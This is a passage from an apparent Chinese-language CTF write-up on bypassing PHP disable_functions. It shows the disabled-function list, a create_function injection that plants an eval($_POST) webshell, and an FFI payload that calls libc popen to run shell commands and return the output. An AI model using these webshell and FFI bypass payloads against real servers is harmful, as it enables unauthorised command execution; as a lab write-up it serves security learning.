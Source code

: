 ```
system,exec,shell_exec,passthru,proc_open,proc_close,&nbsp;proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport,&nbsp;syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept,&nbsp;socket_connect,&nbsp;stream_socket_server,&nbsp;stream_socket_accept,stream_socket_client,ftp_connect,&nbsp;ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space,&nbsp;disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd,&nbsp;posix_getegid,posix_geteuid,posix_getgid,&nbsp;posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid,&nbsp;posix_getppid,posix_getpwnam,posix_getpwuid,&nbsp;posix_getrlimit,&nbsp;posix_getsid,posix_getuid,posix_isatty,&nbsp;posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid,&nbsp;posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname</td><td class="v">system,exec,shell_exec,passthru,proc_open,proc_close,&nbsp;proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport,&nbsp;syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept,&nbsp;socket_connect,&nbsp;stream_socket_server,&nbsp;stream_socket_accept,stream_socket_client,ftp_connect,&nbsp;ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space,&nbsp;disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd,&nbsp;posix_getegid,posix_geteuid,posix_getgid,&nbsp;posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid,&nbsp;posix_getppid,posix_getpwnam,posix_getpwuid,&nbsp;posix_getrlimit,&nbsp;posix_getsid,posix_getuid,posix_isatty,&nbsp;posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid,&nbsp;posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
```

直接不用看了，有一吨，肯定得绕过；蚁剑的各种插件都失败，得手动绕，ffi扩展开着

![image-20211204174245283](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204174245283.png)

看到这里`ffi.enable=On`，符合蚁剑插件的应用条件，写个webshell试试

```
?fighter=create_function&fights=&invincibly=;}eval($_POST[wuhu]);/*
```

![image-20211204175626714](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204175626714.png)

what's up，竟然没有回显

尝试ping，发现还不出网，不能用curl外带flag

那只能从FFI本身下手了，调用c的popen 用管道读命令执行的结果

```c
FILE *popen(const char* command,const char* type);
```

`popen`会调用`fork()`产生子进程，然后从子进程中调用`/bin/sh -c`来执行参数的命令，type有r(read)和w(write)，依照这个值`popen`会建立管道连接到子进程的标准输出设备或写入到子进程的标准输入设备中

```
?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls / -lah","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/*
```

![image-20211204180626497](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204180626497.png)

另一种方法是调用php源码中的函数`php_exec()`，当它的参数type为3时对应调用的是`passthru()`函数，其执行命令可以将结果原始输出
